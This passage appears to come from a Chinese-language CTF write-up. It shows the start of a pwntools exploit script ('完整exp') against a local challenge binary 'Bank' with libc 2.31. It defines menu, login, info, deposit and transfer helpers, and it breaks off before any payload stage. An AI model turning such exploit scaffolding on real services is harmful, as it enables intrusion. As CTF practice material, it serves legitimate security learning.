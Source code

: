 完整exp:

```python
from typing import Union, AnyStr, Tuple, Literal
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')

sh = process(['./Bank'])
libc = ELF('./libc-2.31.so')

Money = Union[AnyStr, int, float]


def to_bytes(content: Money):
    return content if isinstance(content, bytes) else str(content).encode()


def menu(index: Literal[0, 2, 3, 4, 5, 6]):
    """

    :param index: 0: Quit, 2: Deposit, 3: Transfer, 4: Put, 5: Login, 6: Info
    :return:
    """
    choice = ['Quit', "", 'Deposit', "Transfer", "Put", "Login", "Info"]
    sh.recvuntil(b"Click: ")
    sh.sendline(choice[index].encode())


def login(card_number: AnyStr, password: AnyStr):
    menu(5)
    sh.sendlineafter(b"Card Numbers: ", to_bytes(card_number))
    sh.sendlineafter(b"Password: ", to_bytes(password))


def info() -> Tuple[bytes, bytes]:
    menu(6)
    sh.recvuntil(b"[Card Number]: ")
    dest = sh.recvuntil(b'\n', drop=True)
    sh.recvuntil(b"[Money]: ")
    money = sh.recvuntil(b'\n', drop=True)
    return dest, money


def deposit(money: Money):
    menu(2)
    sh.sendlineafter(b"How Much? ", to_bytes(money))


def transfer(who: Literal['admin', 'hacker', 'guest', 'ghost', 'abyss'], money: Money, *arg) -> Union[None, bytes]:

    def admin() -> bytes:
        sh.recvuntil(b"I think ")
        return sh.recvuntil(b' is', drop=True)

    def hacker(ptr: Money):
        sh.sendlineafter(b"hacker: Great!", to_bytes(ptr))

    def guest(content: AnyStr, is_line: bool = True):
        if is_line:
            sh.sendlineafter(b"data: ", to_bytes(content))
        else:
            sh.sendafter(b"data: ", to_bytes(content))
```
